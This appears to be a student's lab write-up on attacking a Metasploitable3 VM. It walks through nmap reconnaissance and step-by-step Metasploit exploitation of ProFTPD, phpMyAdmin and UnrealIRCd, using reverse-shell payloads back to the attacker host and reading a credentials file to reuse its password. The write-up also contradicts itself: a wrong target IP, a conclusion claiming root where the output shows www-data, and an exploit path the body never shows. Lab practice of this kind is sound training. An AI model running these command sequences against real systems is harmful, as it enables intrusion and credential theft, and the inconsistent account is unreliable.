# Ethical Hacking & Pen-Testing

## Introduction:

The goal for this lab is to gain hands-on experience in penetration testing using Kali Linux, Metasploit, and Nmap. Furthermore, Tools that were used to achieve this goal are Kali Linux with `nmap` and Metasploit, and Metasploitable3 which is the target machine. There are 2 Parts to this lab: Recon, and exploiting ProFTPD with Metasploitable3, exploiting Jetty/PhpMyAdmin and lastly, exploiting IRC/MySQL.

## Part 1. Recon:

Note:

Metasploitable3 IP Address: 192.168.0.102 (the target machine’s IP address)

Kali IP Address: 192.168.0.100

**Commands Used:**

`nmap` -A 192.168.0.102

`nmap` -O 192.168.0.102

`nmap` –-osscan-guess 192.168.0.102

`nmap` -sV -sC 192.168.0.102

Screenshot of the results:

> Figure 1.0 Scanning for open ports on the targeted IP address


> Figure 1.0 Scanning for open ports on the targeted IP address


> Figure 1.1 Scanning for OS that’s running on the target


> Figure 1.2 Guessing target’s OS


> Figure 1.3 Identifying versions of services running on open ports and detecting vulnerabilities

> Figure 1.4

## Part 2. Metasploit:

### Target A: ProFTPD

**Commands Used:**

systemctl start postgresql

msfdb init

`msfconsole`

`search` proftpd

`use` `exploit`/unix/ftp/proftpd_modcopy_exec

`show` options

`set` `RHOSTS` 192.168.0.100

`set` `SITEPATH` /var/www/html

`set` `RPORT_FTP` 21

`set` `LHOST` 192.168.0.100

`show` payloads

`set` `PAYLOAD` cmd/unix/reverse_perl

`exploit`

`whoami`

`ls` -l

`shell`

`cat` /var/www/html/phpmyadmin/config.inc.php

`exit`

Screenshot of the results:


> Figure 2.0 Starting PostgreSQL server and initializing the Metasploitable Framework Database.


> Figure 2.1 Successfully got in the Metasploitable Framework Database.


> Figure 2.2 Searching for the target proFTPD.


> Figure 2.3

> Figure 2.4 Setting the target host, port, and looking for available payloads.

> Figure 2.5 Successful exploitation; `whoami` outputted www-data.

> Figure 2.6 Accessing/exploiting sensitive data in the session.


> Figure 2.7 sploitme is the pass to phpMyAdmin credentials.

### Target B: PhpMyAdmin

**Commands Used:**

Note:  I had to go into the phpMyAdmin to check the credential in figure 2.2 to help with exploiting phpMyAdmin since proftpd had phpMyAdmin in the session.

That is, `use` the command in the `shell` to get the password to phpmyadmin:

`cat` /var/www/html/phpmyadmin/config.inc.php

**Commands Used:**

`search` phpmyadmin

`use` `exploit`/multi/http/phpMyAdmin_preg_replace

`show` options

`set` `RHOSTS` 192.168.0.102

`set` `RPORT` 80

`set` PATH /phpmyadmin

`set` USERNAME root

`set` PASSWORD sploitme

`exploit`

`ls`

`shell`

`whoami`

`exit`

Screenshot of the results:


> Figure 2.8


> Figure 2.9

> Figure 2.10

> Figure 2.11 Successfully in Meterpreter through exploitation


> Figure 2.12

> Figure 2.13 Successfully exploited the session; `whoami` outputted www-data.

### Target C: IRC

**Commands Used:**

Note:  IRC with port 6697 – port 6697 is open to `exploit` whereas port 6667 is filtered

**Commands Used:**

`nmap` -sV -p 6697 192.168.0.102

`msfconsole`

`search` irc

`use` unix/irc/unreal_ircd_3281_backdoor

`show` options

`show` payloads

`set` `RPORT` 6697

`set` `RHOSTS` 192.168.0.102

`set` payload cmd/unix/reverse_perl

`set` `LHOST` 192.168.0.100

`set` `LPORT` 4444

`exploit`

`whoami`

`uname` -a

`pwd`

`ls` -la

`exit`

Screenshot of the results:

> Figure 2.14


> Figure 2.15 Searching irc for available irc modules


> Figure 2.16


> Figure 2.17 Using unix/irc/unreal_ircd_3281_backdoor to `exploit`.


> Figure 2.18 Setting up the target port, host, payload, kali host, and kali port to `exploit` the session.

> Figure 2.19 Successfully exploited the session; `whoami` outputted boba_fett.

# Conclusion:

In conclusion, for Target A, the ProFTPD server was exploited using Metasploit, providing root `shell` access to the vulnerable service. Although Target B at first appeared challenging since Jetty itself was not vulnerable and PhpMyAdmin required credentials, I moved on by focusing on exploiting the Continuum application hosted under the Jetty server, which was successful. For Target C, while the IRC service on port 6667 was filtered and infeasible to `exploit`, I found an alternative approach via port 6697 which was a successful exploitation of the IRC server. These experiences and challenges helped me further understand how penetration testing works.